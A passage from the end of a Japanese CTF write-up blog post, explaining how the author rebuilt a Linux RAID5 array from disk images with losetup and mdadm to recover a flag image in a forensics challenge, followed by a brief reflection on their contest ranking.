調べたら結構類題があり、正常な2つのストレージのバリティを利用してXORで復旧が可能とのことだったのですが、残念ながら復旧に失敗しリタイアしました。

参考：[Tokyo Westerns CTF 2016 - Recovery 1: deadnas](https://blog.teknogeek.io/post/tokyo-westerns-ctf-2016-deadnas/)

どうやら、上記の類題はDOSのストレージで、今回の問題はLinuxのストレージである点が違うようです。

（OSによってRaid5の復元方法って違うの・・・？）

ちょっとなぜ類題の方の方法ではRaid5のストレージ復元ができなかったのかについては情報が見当たりませんでしたが、Linux環境のRaid5は`mdadm`で構成されており、以下の記事の手順で復元とマウントができるようです。

参考：[mount - Create RAID array of image files - Ask Ubuntu](https://askubuntu.com/questions/663027/create-raid-array-of-image-files)

``` bash
sudo losetup /dev/loop1 disk01
sudo losetup /dev/loop2 disk02
sudo mdadm --assemble /dev/md0 /dev/loop1 /dev/loop2
# mdadm: /dev/loop1 is busy - skipping
# mdadm: /dev/loop2 is busy - skipping
sudo mdadm -Es
# ARRAY /dev/md/0  metadata=1.2 UUID=2dfa6967:99457c4e:cce8f079:7a80f14d name=ishioka:0
ls -AlF /dev/md/ishioka\:0
# lrwxrwxrwx 1 root root 8 11月  7 23:52 /dev/md/ishioka:0 -> ../md127

sudo mount /dev/md127 /mnt
```

参考：[WaniCTF 2021 write-up - プログラム系統備忘録ブログ](https://tan.hatenadiary.jp/entry/2021/11/07/201306#Forensics-Very-hard-breakRAID-326pt-24solved)

これでストレージ内部の画像ファイルが復元され、Flagが取得できました。

## まとめ

春に参加したときは56位だったので少し順位は上がりましたが、相変わらずPwnとCryptoは全然解けませんでした。

全完できたのもWebとRevだけだったので、もっと勉強しないといけないですね。

引き続き毎週コンテスト参加して精進しようと思います。
